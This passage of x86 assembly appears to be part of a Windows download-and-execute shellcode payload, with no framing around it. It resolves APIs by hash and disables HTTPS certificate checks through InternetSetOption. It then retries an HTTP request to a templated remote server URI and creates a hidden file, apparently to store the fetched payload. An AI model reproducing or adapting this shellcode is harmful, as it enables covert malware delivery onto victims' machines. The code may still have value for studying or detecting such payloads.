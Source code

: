		set_retry:
		  push 0x10
		  pop ebx
		
		; InternetSetOption (hReq, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof (dwFlags) );
		set_security_options:
		  push 0x00003380
		  mov eax, esp
		  push 4                 ; sizeof(dwFlags)
		  push eax               ; &dwFlags
		  push 31                ; DWORD dwOption (INTERNET_OPTION_SECURITY_FLAGS)
		  push esi               ; hRequest
		  push 0x869E4675        ; hash( "wininet.dll", "InternetSetOptionA" )
		  call ebp
		
		httpsendrequest:
		  xor edi, edi
		  push edi               ; optional length
		  push edi               ; optional
		  push edi               ; dwHeadersLength
		  push edi               ; headers
		  push esi               ; hHttpRequest
		  push 0x7B18062D        ; hash( "wininet.dll", "HttpSendRequestA" )
		  call ebp
		  test eax,eax
		  jnz create_file
		
		try_it_again:
		  dec ebx
		  jz thats_all_folks	; failure -> exit
		  jmp.i8 set_security_options
		
		dbl_get_server_host:
		  jmp get_server_host
		
		get_server_uri:
		  call httpopenrequest
		
		server_uri:
		  db "#{server_uri}", 0x00
		
		create_file:
		  jmp.i8 get_filename
		
		get_filename_return:
		  xor eax,eax       ; zero eax
		  pop edi           ; ptr to filename
		  push eax          ; hTemplateFile
		  push 2            ; dwFlagsAndAttributes (Hidden)
		  push 2            ; dwCreationDisposition (CREATE_ALWAYS)
		  push eax          ; lpSecurityAttributes
		  push 2            ; dwShareMode
		  push 2            ; dwDesiredAccess
		  push edi          ; lpFileName
		  push 0x4FDAF6DA   ; kernel32.dll!CreateFileA
		  call ebp
		
